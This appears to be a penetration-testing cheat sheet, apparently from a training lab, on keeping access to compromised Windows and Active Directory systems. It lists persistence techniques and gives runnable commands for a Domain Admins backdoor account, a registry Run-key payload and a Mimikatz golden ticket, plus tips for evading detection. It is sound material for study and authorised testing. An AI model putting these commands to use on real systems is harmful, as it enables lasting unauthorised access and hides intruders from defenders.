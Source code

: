 _Goal: Maintain access to a compromised system across reboots, logoffs, or detection attempts._

---

### **Objectives**

- Maintain access after reboot or user logout
    
- Blend into the environment using native tools or low-noise methods
    
- Avoid detection by security products or incident responders
    

---

```mermaid
graph TD
    A[Privileged Access Achieved] --> B[Choose Persistence Method]
    B --> C[Create Local or Domain User]
    B --> D[Abuse Startup Tasks or Services]
    B --> E[Schedule Tasks or WMI Events]
    B --> F[Abuse GPO, ACLs, or RBCD]
    C --> G[Maintain Login Capability]
    D --> G
    E --> G
    F --> G
```

  

---

### **Techniques and Tools**

|**Technique**|**Tool/Command**|**Notes**|
|---|---|---|
|Add Local Admin User|net user <user> <pass> /addnet localgroup administrators <user> /add|Adds hidden admin account|
|Add Domain User|Add-DomainUser, Add-DomainGroupMember|Requires domain-level privileges|
|Scheduled Task Backdoor|schtasks /create, Register-ScheduledTask|Executes payload at intervals or login|
|WMI Event Subscription|PowerShell, Eventvwr, WMIExplorer|Triggers persistent payload on system events|
|Registry Run Key|reg add|Executes payload on login (HKCU\...\Run)|
|GPO Abuse|Modify existing GPO to run code or add users|Requires write access to GPO|
|ACL / DACL Abuse|Get-DomainObjectACL, Set-Acl|Add permissions to re-elevate later|
|Service Modification|Change binary path of existing service to malicious script|Common, especially for restartable services|
|Remote Scheduled Task or RDP|schtasks /s <target>, Enable-PSRemoting, RDP w/ creds|Maintain access through legitimate tools|
|Kerberos Ticket Injection|Rubeus, mimikatz kerberos::ptt|Golden/Silver tickets for long-term domain access|

  

---

### **Example: Creating a Domain Backdoor User**

```
net user pentest Temp123! /add
net group "Domain Admins" pentest /add /domain
```

  

---

### **Example: Add Persistence with Registry**

```
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Updater /t REG_SZ /d "C:\Users\Public\backdoor.exe"
```

  

---

### **Example: Golden Ticket with Mimikatz**

```
kerberos::golden /user:hacker /domain:INLANEFREIGHT.LOCAL /sid:<domain_sid> /krbtgt:<ntlm_hash> /ptt
```

  

---

### **Pro Tips**

- Use **legit system paths** for payloads (e.g., C:\ProgramData)
    
- Set **delayed or random execution** for tasks to reduce detection
    
- For high stealth: WMI, GPO abuse, or scheduled tasks with harmless names
    
- Persist via **misconfigured ACLs** and **backup RDP accounts** for re-entry
    
